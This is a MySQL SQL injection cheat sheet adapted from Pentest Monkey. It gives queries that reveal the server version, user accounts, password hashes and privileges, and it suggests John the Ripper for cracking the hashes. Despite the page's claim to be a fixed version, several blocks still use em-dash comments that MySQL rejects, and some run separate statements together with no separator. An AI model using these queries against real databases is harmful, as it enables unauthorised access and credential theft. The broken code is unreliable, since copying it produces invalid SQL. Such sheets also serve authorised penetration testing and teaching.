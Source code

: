 # MySQL SQL Injection Cheatsheet

This page is for SQL injection, for exploitation, misconfigurations and abuse of a MySQL database where you can access the database directly visit [[MySQL-Hacking]].  This page started as fixed version of Pentest Monkey cheatsheet that is old, but gold - it happen to use Unicode quotes so this is the *fixed* version. Other techniques, consideration and mitigation, etc will be added here over time.
#### MySQL SQL Injection Cheatsheet - Fixed From Pentest-Monkey

Fixed the Unicode single quotes for copy and paste -able. Pentest Monkey is Awesome.

Version
```sql
SELECT @@version
```

Comments
```sql
SELECT 1; #comment
SELECT /*comment*/1;
```

Current User 	
```sql
SELECT user();
SELECT system_user();
```

List Users 	
```sql
SELECT user FROM mysql.user; — priv
```

List Password Hashes 	
```sql
SELECT host, user, password FROM mysql.user; — priv
```

Password Cracker John the Ripper will crack MySQL password hashes.

List Privileges 	
```sql
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges; — list user privsSELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user; — priv, list user privsSELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges; — list privs on databases (schemas)SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges; — list privs on columns
```

List DBA Accounts 	
```sql
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'SUPER';SELECT host, user FROM mysql.user WHERE Super_priv = 'Y'; # priv
```
